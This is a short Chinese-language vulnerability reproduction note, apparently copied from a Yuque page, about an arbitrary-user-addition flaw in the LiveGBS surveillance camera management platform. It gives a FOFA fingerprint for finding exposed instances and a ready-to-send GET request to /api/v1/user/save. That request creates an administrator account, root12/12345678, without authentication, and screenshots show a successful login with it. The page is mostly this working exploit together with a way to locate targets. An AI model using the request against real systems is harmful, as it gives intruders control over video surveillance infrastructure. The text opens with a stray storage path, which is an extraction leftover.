 # LiveGBS save存在任意用户添加漏洞

# 一、漏洞简介
LiveGBS是一款基于GB28181协议的安防监控软件，专为集中统一管理和观看所有摄像头、硬盘录像机等设备而设计。它支持GB28181注册接入，可向上级联第三方国标平台，提供可视化的WEB页面管理，使用户能够轻松实现设备的远程监控和管理。LiveGBS具备多项强大功能，包括云台控制、设备录像检索与回放、语音对讲、用户管理等。同时，它支持多种协议流输出，实现浏览器无插件直播，让用户能够随时随地通过Web端查看监控画面。LiveGBS save存在任意用户添加漏洞。

# 二、影响版本
+ LiveGBS 

# 三、资产测绘
+ fofa`icon_hash="-206100324"`
+ 特征

![1714840195509-17413bb5-8988-4807-907b-1335a5357ea9.png](./img/G22NguMpq0EvMZ3E/1714840195509-17413bb5-8988-4807-907b-1335a5357ea9-579412.png)

# 四、漏洞复现
```plain
GET /api/v1/user/save?ID=&Username=root12&Role=%E7%AE%A1%E7%90%86%E5%91%98&Enable=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Connection: close
```

添加的用户名为`root12/12345678`

![1714840241628-f71f03e1-785d-443e-b720-f1650443f616.png](./img/G22NguMpq0EvMZ3E/1714840241628-f71f03e1-785d-443e-b720-f1650443f616-327422.png)

测试登录

![1714840261984-9c870b53-d781-4302-b2dc-fbd1f2352b48.png](./img/G22NguMpq0EvMZ3E/1714840261984-9c870b53-d781-4302-b2dc-fbd1f2352b48-649257.png)



> 更新: 2024-05-18 12:34:46  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/qda2azg0wd52xg13>